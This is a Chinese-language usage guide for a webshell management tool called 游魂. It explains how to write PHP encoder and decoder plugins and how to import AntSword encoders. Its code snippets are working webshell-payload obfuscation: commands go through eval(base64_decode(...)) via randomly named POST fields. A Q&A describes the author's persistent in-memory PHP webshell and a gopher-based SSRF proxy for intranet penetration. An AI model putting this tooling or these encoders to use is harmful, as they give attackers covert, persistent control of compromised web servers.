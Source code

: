# 示例：自定义Encoder

TODO: 做一个添加encoder的页面

首先根据启动时打印的路径打开游魂的配置文件夹，找到其中的`modules/php_encoders`文件夹

新建python文件（如`example.py`）并往其中写入以下内容：

```python
import base64

def encode(code: str):
    return f"eval(base64_decode({base64.b64encode(code.encode()).decode()!r}));"
```

最后重启游魂即可在webshell编辑页面看到encoder

注意：encode函数的返回值可以是str或bytes，代表需要执行的PHP代码

# 示例：自定义Decoder

TODO: 做一个添加decoder的页面

首先根据启动时打印的路径打开游魂的配置文件夹，找到其中的`modules/php_decoders`文件夹

新建python文件（如`example.py`）并往其中写入以下内容：

```python
import base64

phpcode = """
function decoder_echo_raw($s) {
    echo base64_encode($s);
}
"""

def decode(s: str) -> str:
    return base64.b64decode(s).decode()
```

最后重启游魂即可在webshell编辑页面看到decoder

# 示例：将蚁剑的encoder和decoder导入到游魂中

首先根据启动时打印的路径打开游魂的配置文件夹

然后在`AntSwordEncoder`或`AntSwordDecoder`中写入js文件，并重启游魂即可

比如在`AntSwordEncoder`写入文件`example-base64.js`

```js
module.exports = (pwd, data, ext={}) => {
    let randomID = `_0x${Math.random().toString(16).substr(2)}`;
    data[randomID] = Buffer.from(data['_']).toString('base64');
    data[pwd] = `eval(base64_decode($_POST[${randomID}]));`;
    delete data['_'];
    return data;
}
```

或者在`AntSwordDecoder`写入文件`example-base64.js`

```js
module.exports = {
  asoutput: () => {
    return `function asenc($out){
      return @base64_encode($out);
    }
    `.replace(/\n\s+/g, '');
  },
  decode_buff: (data, ext={}) => {
    return Buffer.from(data.toString(), 'base64');
  }
}
```

完成后可以在webshell编辑界面看到encoder

注意：游魂不支持和蚁剑内部设计高度相关的某些环境变量，某些encoder需要进行修改才能使用

# Q&A: 为什么正向代理有Vessel和伪正向两种代理？Vessel是什么？

Vessel是我自己写的一个PHP持久化内存马，可以通过文件和Session两种方式通信。本来正向代理功能是打算直接联动[Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg)的，但是Neo-reGeorg的许可证是GPL3，如果用他们的代码的话就要换许可证了。

本来计划是写一个PHP内存马然后通过文件实现与内存马的通信，但是看了Neo-reGeorg的代码后才发现Session竟然可以这么用来通信，然后才加上了Session的通信方式。

Vessel没有经过多少测试，功能也只是基本能用的状态，速度应该也比不上Neo-reGeorg，但是用来做内网渗透应该是够的。

伪正向代理是用gopher协议以类似SSRF的方式发送流量，因为是SSRF所以基本上只能支持HTTP之类的协议。
